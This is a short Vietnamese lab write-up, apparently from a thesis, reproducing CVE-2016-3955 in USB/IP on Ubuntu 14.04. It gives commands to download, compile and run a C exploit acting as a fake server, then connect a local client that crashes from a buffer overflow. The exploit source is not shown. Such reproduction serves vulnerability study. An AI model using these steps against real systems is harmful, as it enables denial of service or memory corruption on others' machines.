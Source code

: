 # Thực nghiệm thứ nhất 

## Kịch bản 

- Chạy trên Ubuntu 14.04.1 
- Sử dụng server và client trên cùng một node
- Sử dụng một chương trình C để giả mạo server 
- Client kết nối tới server giả mạo 

Kết quả: 

- Client sẽ bị crash vì tràn bộ đệm 

## Thiết lập 

### Server 

- Tải chương trình C 

    ```
    wget https://raw.githubusercontent.com/MinhKMA/graduate_thesis/master/CVE-2016-3955.c
    ```
- Biên dịch 

    ```
    gcc CVE-2016-3955.c -o CVE-2016-3955
    ```

- Chạy server giả mạo 

    ```
    modprobe usbip-core
    modprobe usbip-host
    modprobe vhci-hcd
    ```

    ```
    ./CVE-2016-3955
    ```
### Client 

- Cài đặt USB/IP

    ```
    apt-get install usbip -y
    ```

- Kết nối với server 

    ```
    usbip -a 127.0.0.1 2-1 -D
    ```

- Client bị crash

<img src="https://i.imgur.com/pRYJwnU.png">

